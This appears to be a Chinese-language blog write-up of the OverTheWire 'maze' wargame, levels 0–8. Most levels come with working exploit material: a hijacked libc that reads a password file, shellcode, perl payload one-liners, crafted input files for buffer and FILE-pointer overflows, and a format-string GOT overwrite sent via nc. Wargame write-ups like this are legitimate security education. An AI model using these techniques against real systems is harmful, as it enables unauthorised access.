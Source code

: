 ```yaml
---
title: maze
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

*  **maze0**  
race condition，以前做过，于是懒得再弄了

*  **maze1**  
`ldd`检查发现会加载当前目录下的`libc.so.4`。于是我们写一个文件 


{% highlight c %}
int __libc_start_main() {
    int fd = open("/etc/maze_pass/maze2", 0);
    char buf[64];
    int numRead = read(fd, buf, sizeof buf);
    buf[numRead] = 0;
    write(1, buf, numRead);
    return 0;
}
{% endhighlight %}
    

这里的输入输出没有用libc里的fopen，printf等，因为没有加载正确的libc.so
    
将该文件编译成动态库：
    
<pre>$ gcc --shared -fPIC 1.c -o libc.so.4</pre>
    
再运行程序，就会调用我们提供的start_main

*   **maze2**  
把payload提供为argv即可。调用时会执行我们提供的argv[1]的内容；由于最多只能复制8个字符，所以把shellcode放环境变量，然后跳到那里： 

{% highlight nasm %}
BITS 32
mov eax, 0xffffd8d8
jmp eax
{% endhighlight %}
        
正好7个字符，然后执行
        
<pre>$ /maze/maze2 `perl -e 'print "\xb8\xd8\xd8\xff\xff\xff\xe0"'`</pre>
        
*   **maze3**  
    只有个_start，估计是纯手写的汇编。 
    关于linux下main函数的启动，<http://tldp.org/LDP/LGNET/84/hawk.html>有一篇文章。于是可以知道，进入\_start之后，栈顶由高到底依次为：argc, &argv[0], &argv[1], &argv[2],&#8230;。而\_start一般来说会执行 
            
{% highlight objdump %}
 080482d0 <_start>:
 80482d0:       31 ed                   xor    %ebp,%ebp
 80482d2:       5e                      pop    %esi
 80482d3:       89 e1                   mov    %esp,%ecx
...
 80482e5:       51                      push   %ecx
 80482e6:       56                      push   %esi
{% endhighlight %}
            

这里就把argv和argv推到栈上了。

对于我们的程序，首先取出argc,看减1后是否为0，如果是的话退出。

然后调用了mprotect，是修改内存属性，7的话应该是rwx，于是我们接下来可以修改指令部分了。接着是把44bytes指令取出(ecx=0x2c)，与0x12345678做XOR，再保存回原来的地方(edi=edi=d1)，接着就执行这一部分的内容。全部XOR之后，将要执行的代码变成：
            

{% highlight objdump %}
=> 0x80480cb <d1>:      pop    %eax
   0x80480cc <d1+1>:    cmpl   $0x1337c0de,(%eax)
   0x80480d2 <d1+7>:    jne    0x80480ed <d1+34>
   0x80480d4 <d1+9>:    xor    %eax,%eax
   0x80480d6 <d1+11>:   push   %eax
   0x80480d7 <d1+12>:   push   $0x68732f2f
   0x80480dc <d1+17>:   push   $0x6e69622f
   0x80480e1 <d1+22>:   mov    %esp,%ebx
   0x80480e3 <d1+24>:   push   %eax
   0x80480e4 <d1+25>:   push   %ebx
   0x80480e5 <d1+26>:   mov    %esp,%ecx
   0x80480e7 <d1+28>:   xor    %edx,%edx
   0x80480e9 <d1+30>:   mov    $0xb,%al
   0x80480eb <d1+32>:   int    $0x80
   0x80480ed <d1+34>:   mov    $0x1,%eax
   0x80480f2 <d1+39>:   xor    %ebx,%ebx
   0x80480f4 <d1+41>:   inc    %ebx
   0x80480f5 <d1+42>:   int    $0x80
{% endhighlight %}
            
由于之前有pop了一次，所以这里是把argv[1]和0x1337c0de比较，相等的话就有shell了。于是执行
            
<pre>$ /maze/maze3 `perl -e 'print "\xde\xc0\x37\x13"'`</pre>
            
多说一句，1337这个数经常见到，因为是<http://en.wikipedia.org/wiki/Leet>
*   **maze4**  
这里会检查提供的文件，如果符合要求则执行。具体检查如下： 


{% highlight c %}
...
        Elf32_Ehdr ehdr;
        Elf32_Phdr phdr;
        struct stat st;
...

        /* read Elf-header */
        read(fd,&ehdr,sizeof(Elf32_Ehdr));

        /* read Program-header */
        lseek(fd,ehdr.e_phoff,SEEK_SET);
        read(fd,&phdr,sizeof(Elf32_Phdr));

        /* check */
        if(phdr.p_paddr == (ehdr.e_ident[EI_OSABI]*ehdr.e_ident[EI_ABIVERSION]) &&
           st.st_size < 120) {
                printf("valid file, executing\n");
                execv(argv[1],NULL);
        }
{% endhighlight %}
                
而如果提供ELF文件，那么p_paddr在0x08040000之后，但两个bytes相乘不太可能等于那么大的数。

但如果是脚本文件，就不用那么费事了。 

<pre>$ perl -e 'print "#!/bin/sh\ncat maze5\n#" . "-"x7 . "\x14\x00\x00\x00" . "\xb8\x2e\x00\x00"' > overthewire/maze/maze4.sh</pre>
                
两个相乘的bytes在0x7、0x8处，是s和h。program header在0x1c，我们把那里写成0x14。这样再找p_paddr就会在0x14+0xc=0x20，那里写成乘积0x2eb8。这样就符合要求了。
                
为了省事儿，我把密码文件链接到当前目录下面了。而且用sh而不是bash，因为setuid的问题。
                
*   **maze5**  
检查用户名和密码，都是8bytes，而且password[i]=&#8217;printlol&#8217;[i]-(username[i]-65)-2*i。这样我们如果提交username为A?=;9753，那么-2i被抵消，密码还是printlol

*   **maze6**  
这里可以覆盖FILE指针地址，也就是说可以使用我们提供的FILE结构。其定义在文件libio.h中，名字是\_IO\_FILE。 

<http://www.ouah.org/fsp-overflows.txt>有一篇参考文章。
                    
fprintf最终会调用vfprintf。参考FILE的定义，开始处有一些指针，我们把那里都写成jump table的地址。然后
                    
{% highlight objdump %}
...
   0xf7e6467d <vfprintf+29>:    mov    0x8(%ebp),%esi
...
   0xf7e64798 <vfprintf+312>:   movsbl 0x46(%esi),%eax
   0xf7e6479c <vfprintf+316>:   sub    0xc(%ebp),%edi
   0xf7e6479f <vfprintf+319>:   mov    0x94(%esi,%eax,1),%eax
...
   0xf7e647ba <vfprintf+346>:   call   *0x1c(%eax)
{% endhighlight %}
                    
可以看到，FILE的地址放在了esi,esi+0x46处的signed char被取出。参考定义这个是signed char \_vtable\_offset；然后此offset加上0x94得到table的地址；最后0x1c加table地址被调用。
                    
于是，我们把第0x46处写成8,接下来作为jump table的内容，存的全是SHELLCODE的地址。 
                    
<pre>$ ./maze6 1 `perl -e 'print "\x2a\xf2\xd5\xd5"x17 . "\x2e\x2e\x22\x2e" . "\x7e\xf3\xd5\xd5"x22 . "\xf7\xf6\xd5\xd5"x24 . "\x96\xf2\xd5\xd5"'`</pre>
                    
*   **maze7**  
首先读取起始的0x34=52个bytes，并从中获取参数，传给函数print_shdrs；然后在这个函数中的`read(fd,&v5,nbytes)`处可以向下覆盖至返回地址，由于这次的读文件还需要保持堆上的地址，所以我们再放72bytes在文件的后面。 

要注意的是，向下覆盖时会重写ptr和buf的值。为了后面的free不出错，我们用gdb获得这两个堆上的地址，然后放到文件相应的地方；此外，在printf中会打印一个字符串，我们最好保证地址不要越界，也就是v5不要超过ptr的长度。
                        
<pre>$ perl -e 'print "A"x32 . "\x34\x00\x00\x00" . "A"x10 . "\x48\x00" . "\x01\x00" . "\x00\x00" . "\x00"x20 . "\x10\x00\x00\x00" . "\x00"x16 . "\x38\xa0\x04\x08" . "AAAA" . "\x08\xa0\x04\x08" . "\x02\x00\x00\x00" . "A"x8 . "ebp-" . "\x05\xd9\xff\xff"' > f
$ /maze/maze7 f</pre>
                        
*   **maze8**  
会监听1337端口。另外，snprintf存在format string。我们选择修改send的got地址，这需要同时联两个到ssh上面，一个把shellcode放到环境变量并启动maze8，另一个发送我们构造的内容： 
<pre>$ perl -e 'print "\x78\x9d\x04\x08" . "\x79\x9d\x04\x08" . "\x7a\x9d\x04\x08" . "\x7b\x9d\x04\x08" . "%245x%11\$hhn" . "%212x%12\$hhn" . "%38x%13\$hhn" . "%14\$hhn"' | nc 127.0.0.1 1337</pre>
                            
这样maze8那边就得到shell
